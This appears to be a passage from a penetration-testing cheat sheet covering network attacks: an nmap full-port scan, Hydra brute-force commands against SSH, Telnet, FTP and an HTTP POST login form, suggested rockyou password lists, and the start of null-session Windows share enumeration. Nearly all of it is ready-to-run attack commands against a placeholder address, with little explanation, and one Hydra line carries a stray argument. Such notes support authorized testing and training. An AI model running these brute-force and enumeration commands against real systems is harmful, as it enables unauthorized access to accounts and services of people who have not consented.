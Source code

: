 ### Full scan

```bash
nmap -sC -sV -A -T4 -p- 10.10.10.10 --open
```

---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---

# Network Attacks

## Hydra

### SSH

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /usr/share/seclists/Passwords/rockyou-10.txt
* /usr/share/seclists/Passwords/rockyou-15.txt The above password lists are recommended to run first before the larger rockyou.txt
* /usr/share/ncrack/minimal.usr for users list.

## Windows Shares using Null Sessions

### Shares Enumeration

```text
nmblookup -A 10.10.10.10
```
